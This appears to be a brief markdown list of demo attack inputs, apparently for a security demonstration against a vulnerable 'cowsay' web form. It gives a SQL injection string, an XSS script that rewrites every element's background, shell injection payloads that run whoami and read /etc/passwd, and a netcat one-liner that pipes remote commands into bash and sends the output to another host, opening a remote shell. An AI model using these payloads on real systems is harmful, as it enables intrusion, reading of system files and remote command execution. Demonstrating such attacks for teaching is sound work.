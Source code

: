 # Demo Commands

## SQL Injection

`' OR 1=1--`


## XSS

```html
<script>
    var elements = document.getElementsByTagName('*')
    for (var i = 0; i < elements.length; ++i) {
        elements[i].style.background='url("https://i.imgur.com/HeGEEbu.jpg")';
    }
</script>
```


## Shell Injection

1. `$(whoami)`
2. `$(cat /etc/passwd)`
3. `a"; cat /etc/passwd #`


### Bidirectional Shell

Run locally: `nc -l 9999`
Place in cowsay form field: `a"; nc -l 10000 | bash | nc 10.0.4.2 9999 #`


